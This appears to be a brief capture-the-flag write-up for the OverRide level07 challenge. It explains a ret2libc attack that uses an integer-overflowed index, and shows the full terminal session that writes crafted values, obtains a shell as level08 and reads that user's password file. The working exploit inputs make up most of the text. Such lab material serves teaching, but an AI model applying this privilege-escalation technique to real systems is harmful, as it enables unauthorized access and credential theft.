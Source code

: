 This code actually cleans every argument received which means, the env variables are cleaned too and the shellcode is lost. When we then send the address of the shellcode, well it was pointing to nowhere, nothing can happen since everything was deleted. Ret2LibC was then the solution by switching between int overflows and regular indexes, and we can now obtain the flag:

```sh
level07@OverRide:~$ ./level07
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

## Important doc

[Stack Canaries explained](https://ir0nstone.gitbook.io/notes/binexp/stack/canaries)

